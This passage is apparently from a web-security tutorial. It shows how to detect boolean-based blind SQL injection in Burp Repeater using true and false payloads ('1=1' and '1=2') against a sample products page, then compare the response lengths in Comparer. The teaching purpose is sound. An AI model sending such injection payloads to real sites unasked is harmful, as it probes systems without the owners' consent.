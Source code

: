 Creating two conditions that produce **different, measurable** responses.

### In Burp Repeater

#### Test TRUE Condition

**Modify request:**

```
GET /products.php?id=1' AND 1=1 -- -
```

**Click "Send"**

**In Response panel:**

- Look at **Response** tab (raw HTML)
- Look at **Render** tab (visual)
- Note the status and length at bottom

**Expected Output:**

```html
<h1>Blue Notebook</h1>
<p>Price: $5.99</p>
<p>Welcome to our shop!</p>
```

- Status: `200 OK`
- Length: `5432 bytes`
- Contains: `"Welcome"`

***

#### Test FALSE Condition

**Modify request:**

```
GET /products.php?id=1' AND 1=2 -- -
```

**Click "Send"**

**Expected Output (Different!):**

```html
<h1>Product Not Found</h1>
```

- Status: `200 OK` (or `404`)
- Length: `1823 bytes` (much smaller)
- Does NOT contain: `"Welcome"`

***

### Compare in Burp

**Right-click the TRUE request → "Send to Comparer"**
**Right-click the FALSE request → "Send to Comparer"**
**Go to Comparer tab → Click "Words" or "Bytes"**
